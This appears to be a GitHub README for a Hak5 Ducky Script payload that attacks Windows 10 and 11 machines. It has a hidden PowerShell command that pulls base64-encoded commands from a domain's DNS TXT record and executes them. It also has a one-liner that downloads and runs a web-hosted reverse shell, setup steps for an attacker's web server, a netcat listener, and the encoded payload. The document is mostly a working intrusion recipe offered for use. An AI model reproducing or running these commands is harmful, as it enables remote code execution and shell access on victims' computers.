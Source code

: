 # DNS-TXT-CommandInjection
Ducky Script uses Resolve-DnsName to perform a DNS name query resolution for a domain hosting a malicious TXT record. The payload leverages DNS TXT records to perform command injection. Windows Powershell is the CLI used by the payload. Replace the DNS TXT record for your domain with the base64 encoded payload you have. 
## Description
Author: Nate\
Target: Windows 10, 11\
Props: Hak5, Darren Kitchen, Korben\
Version: 1.0\
Category: Execution
## Configuration
1. A domain with the ability to manipulate the DNS TXT records.
2. Add command to DNS TXT records. See Links for an example of creating your DNS TXT record in AWS Route53 service.
3. Web Server hosting a file. In this example, python3 http.server was used to host a reverseshell.
4. Update powershellReverseShellOne-liner.ps1.
5. Set up istener on the attacker machine to reflect what is in powershellReverseShellOne-liner.ps1. Netcat was used in this example.
6. Provide URL used for Example #MY_TARGET_URL in DNS-TXT-CommandInjection.txt
## Notes
Other commands can be added to DNS TXT record rather than the example below.
No base64 can be used as an option by replacing "$a=",";powershell -e $a" with just "|iex" for the STRINGLN payload. Examples of the decoded command and encoded command are shown below to put into the DNS TXT record.

Decoded: "irm http://MY_TARGET_URL/T1.txt | iex"
Encoded: "aQByAG0AIABoAHQAdABwADoALwAvAGUAeABhAG0AcABsAGUALgBjAG8AbQAvAFQAMQAuAHQAeAB0ACAAfAAgAGkAZQB4AA=="

powershellReverseShellOne-liner.ps1 is identical to T1.txt. (shortened due to character limitations)
ShoutOut: powershell reverse shell one-liner by Nikhil SamratAshok Mittal @samratashok. See link below.
## Windows Commands (used in payload)
### Execute DNS TXT Payload
```Powershell
powershell /w 1 $a=(resolve-dnsname #MY_TARGET_URL TXT).strings;powershell -e $a
```
### Execute web hosted Powershell Reverseshell
```Powershell
irm http://MY_TARGET_URL/T1.txt | iex
```
## Linux Commands
### Web Server to host a file
```Bash
python3 -m http.server 80
```
### Netcat listener
```Bash
nc -lvnp 1337
```
### Links

[Powershell Reverseshell One-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)

[Create TXT record in AWS Route53](https://www.entrust.com/knowledgebase/ssl/how-to-create-a-txt-record-on-amazon-aws-route-53-for-entrust-email-validation-method)
